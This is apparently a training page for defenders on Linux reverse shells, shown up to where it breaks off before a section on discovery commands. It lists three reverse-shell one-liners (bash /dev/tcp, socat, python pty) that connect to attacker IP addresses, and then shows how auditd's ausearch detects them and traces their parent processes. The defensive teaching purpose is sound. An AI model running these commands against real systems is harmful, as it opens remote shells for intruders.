 # 🐚 Reverse Shells, Privilege Escalation & Persistence in Linux

Attackers accessing systems via **SSH** get a convenient, full-featured terminal with colors, autocompletion, and `Ctrl+C` support. However, not every breach grants such access. When **Initial Access** occurs through exploits or web vulnerabilities, attackers often face restrictions such as:

* Broken or delayed command output
* Network or execution timeouts
* Limited permissions or shell access

To overcome these issues, adversaries establish **reverse shells** — outbound connections from the victim machine to the attacker, allowing interactive control.

---

## 🔄 Reverse Shells

Here are a few common methods to spawn a reverse shell on Linux:

| **Victim Command**                                                     | **Explanation**                                                                                |
| ---------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| `bash -i >& /dev/tcp/10.10.10.10/1337 0>&1`                            | Forces the victim to connect to the attacker’s IP (`10.10.10.10:1337`) and spawn a Bash shell. |
| `socat TCP:10.20.20.20:2525 EXEC:'bash',pty,stderr,setsid,sigint,sane` | Uses **socat** to establish a reverse shell; the attacker listens at `10.20.20.20:2525`.       |
| `python3 -c '[...] s.connect(("10.30.30.30",80));pty.spawn("bash")'`   | Python alternative; the attacker listens on port `80`.                                         |

---

## 🕵️ Detecting Reverse Shells

Reverse shells are **critical alerts** — they indicate active exploitation and hands-on-keyboard activity. Fortunately, they are detectable using **auditd**.

### Example: Detecting a `socat` Reverse Shell

```bash
root@thm-vm:~$ ausearch -i -x socat
type=PROCTITLE msg=audit(09/19/25 17:42:10.903:406) : proctitle=socat TCP:10.20.20.20:2525 EXEC:'bash',[...]
type=SYSCALL msg=audit(09/19/25 17:42:10.903:406) : ppid=27806 pid=27808 auid=unset uid=serviceuser key=exec
```

You can reconstruct the process tree to trace the origin:

```bash
root@thm-vm:~$ ausearch -i --pid 27806
root@thm-vm:~$ ausearch -i --pid 27796
```

Once connected, attackers typically run **Discovery** commands:

